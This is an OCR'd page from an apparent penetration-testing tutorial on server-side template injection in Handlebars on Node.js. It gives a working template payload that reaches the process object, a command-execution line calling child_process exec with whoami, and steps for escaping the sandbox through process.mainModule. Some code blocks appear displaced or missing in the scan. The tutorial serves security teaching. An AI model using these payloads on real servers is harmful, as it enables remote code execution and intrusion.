 Global Objects in Node.js. It is worth noting that the documentation also showcases a list of variables that
appear to be global objects, but in fact are built-in objects. These are the following:

```
{{this.push "return require('child_process').exec('whoami');"}}
```
```
__dirname
__filename
exports
module
require()
```

As seen from the list, require is in fact not in the global scope and therefore in specific cases it might not

be accessible. Taking a closer look at the documentation we see that there is a process object available. The
documentation states that this object _provides information about, and control over, the current Node.js process_.
We might be able to use this object to load a module. Let's see if we can call it from the SSTI. Modify your
payload as follows:

URL encode the payload as shown previously and send it using BurpSuite Repeater.

The response did not contain an error and we can see the [object process] has been included. This
means that the process object is indeed available.

Taking a closer look at the documentation of the process object, we see that it has a mainModule property
that has been deprecated since version 14.0.0 of Node.js, however, deprecated does not necessarily mean
inaccessible. A quick Google search using the keywords Node.js mainModule reveals this blog post that

details the usage of this property.

Specifically, it mentions that this property _returns an object that contains the reference of main module_. Since
handlebars is running in a sandboxed environment, we might be able to use the mainModule property to

directly load the main function and since the main function is most probably not sandboxed, load require

from there. Let's modify our payload once more to see if mainModule is accessible.

```
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process;"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
```